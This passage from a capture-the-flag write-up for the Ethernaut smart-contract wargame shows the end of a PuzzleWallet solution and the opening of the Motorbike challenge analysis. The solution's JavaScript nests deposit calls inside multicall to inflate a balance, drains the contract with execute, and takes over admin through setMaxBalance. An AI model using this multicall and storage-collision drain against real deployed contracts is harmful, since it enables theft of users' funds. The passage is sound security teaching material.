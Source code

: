 ```js
await contract.addToWhitelist(player);

// getting the deposit call data

const depositData = (await contract.methods('deposit()').request()).data

const multiCallData = (await contract.methods('multicall(bytes[])').request([depositData])).data

await contract.multicall([multicallData,multicallData],{value:toWei('0.001')}); // adding to our balance

await contract.execute(player,toWei('0.002'),'0x0'); // Draining funds

await contract.setMaxBalance(player) // It will convert upon call 
```

Challenge solved ✅

## Motorbike

## Challenge Description

> Ethernaut's motorbike has a brand new upgradeable engine design. 
>  Would you be able to selfdestruct its engine and make the motorbike unusable ?
>Things that might help:
    EIP-1967
    UUPS upgradeable pattern
    Initializable contract

## Analysis

To solve this challenge, we need to be familiar with both [Initializable](https://github.com/OpenZeppelin/openzeppelin-upgrades/blob/master/packages/core/contracts/Initializable.sol) and most importantly  the [EIP-1967](https://eips.ethereum.org/EIPS/eip-1967)

After going through all the reading material, as usual I drew the diagram to understand the core logic of the contracts.

![Motorbike Diagram](images/3ac10a42b6cb747f06aad171856c6d4814105583603857fbc5fd1e2549969c23.png)  
